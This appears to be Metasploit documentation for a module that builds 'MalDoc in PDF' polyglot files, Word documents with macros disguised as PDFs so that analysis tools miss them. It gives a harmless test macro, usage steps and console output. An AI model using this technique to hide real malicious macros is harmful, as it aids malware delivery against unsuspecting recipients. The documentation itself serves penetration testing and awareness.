 ## Vulnerable Application

The technique is called "MalDoc in PDF". This technique hides malicious Word documents in PDF files,
which is why malicious code contained in them cannot be detected by many analysis tools.

The document can be opened in both Microsoft Word and a PDF reader.

However, for the macro to run, you must open this document in Microsoft Word. The attack does not bypass
configured macro locks. The malicious macros are also not executed when the file is opened in PDF readers
or similar software.

### Introduction

A malicious MHT file created can be opened in Microsoft Word even though it has magic numbers and file
structure of PDF.

If the file has configured macro, by opening it in Microsoft Word, VBS runs and performs malicious behaviors.

## For Testing

You create a `Single File Web Page (*.mht, *.mhtml)` file containing a VBS macro. For testing, you can use the
following macro:

```
Sub AutoOpen()
   MsgBox "Macro executed successfully!", vbInformation, "Information"
End Sub
```

## Verification Steps

1. Start msfconsole
2. Do: `auxiliary/fileformat/maldoc_in_pdf_polyglot`
3. Do: `set FILENAME /tmp/macro.htm`
4. Do: `run`

## Options

### FILENAME

The input MHT filename with macro embedded.

### INJECTED_PDF

The input PDF filename to be injected. (optional)

### MESSAGE_PDF

The message to display in the local PDF template (if INJECTED_PDF is NOT used). Default: You must open this document in Microsoft Word

## Scenarios

### Create without PDF template

```
msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > options 

Module options (auxiliary/fileformat/maldoc_in_pdf_polyglot):

   Name          Current Setting                                Required  Description
   ----          ---------------                                --------  -----------
   FILENAME      /tmp/macro.mht                                 yes       The input MHT filename with macro embedded
   INJECTED_PDF                                                 no        The input PDF filename to be injected (optional)
   MESSAGE_PDF   You must open this document in Microsoft Word  no        The message to display in the local PDF template (if INJECTED_PDF is NOT used)

View the full module info with the info, or info -d command.

msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > run
[*] PDF creation using local template
[+] The file 'macro.doc' is stored at '/home/mekhalleh/.msf4/local/macro.doc'
[*] Auxiliary module execution completed
```

### Create using PDF template

```
msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > options 

Module options (auxiliary/fileformat/maldoc_in_pdf_polyglot):

   Name          Current Setting                                Required  Description
   ----          ---------------                                --------  -----------
   FILENAME      /tmp/macro.mht                                 yes       The input MHT filename with macro embedded
   INJECTED_PDF  /tmp/injected.pdf                              no        The input PDF filename to be injected (optional)
   MESSAGE_PDF   You must open this document in Microsoft Word  no        The message to display in the local PDF template (if INJECTED_PDF is NOT used)


View the full module info with the info, or info -d command.

msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > run
[*] PDF creation using 'injected.pdf' as template
[+] The file 'macro.doc' is stored at '/home/mekhalleh/.msf4/local/macro.doc'
[*] Auxiliary module execution completed
```

## References

1. <https://blogs.jpcert.or.jp/en/2023/08/maldocinpdf.html>
2. <https://socradar.io/maldoc-in-pdf-a-novel-method-to-distribute-malicious-macros/>
3. <https://www.nospamproxy.de/en/maldoc-in-pdf-danger-from-word-files-hidden-in-pdfs/>
